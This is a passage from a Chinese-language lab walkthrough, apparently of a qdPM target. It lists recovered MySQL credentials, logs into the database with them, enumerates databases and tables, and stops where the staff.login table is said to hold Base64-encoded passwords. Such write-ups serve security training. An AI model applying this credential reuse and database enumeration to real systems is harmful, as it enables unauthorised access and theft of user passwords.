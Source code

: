   > 获得`mysql`数据库信息
  > 
  > <mark>dbname:</mark>`qdpm`
  > 
  > <mark>username:</mark>`qdpmadmin`
  > 
  > <mark>password:</mark>`UcVQCMQk2STVeS6J`

## 阶段二：连接数据库

### 1. 登录数据库

```bash
mysql -h 192.168.1.111 -P 3306 --user=qdpmadmin --password=UcVQCMQk2STVeS6J
```

### 2. 查找有用信息

- 查看所有数据库
  
  ```bash
  MySQL [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | information_schema |
  | mysql              |
  | performance_schema |
  | qdpm               |
  | staff              |
  | sys                |
  +--------------------+
  6 rows in set (0.001 sec)
  ```

- 在数据库表`staff.department`中获得职位信息。
  
  ```bash
  MySQL [(none)]> use staff;
  Reading table information for completion of table and column names
  You can turn off this feature to get a quicker startup with -A
  
  Database changed
  MySQL [staff]> select * from department;
  +------+----------+
  | id   | name     |
  +------+----------+
  |    1 | Agent    |
  |    2 | Engineer |
  +------+----------+
  2 rows in set (0.000 sec)
  ```

- 在数据库表`staff.login`中获得一些密码信息，基于`BASE64`加密
  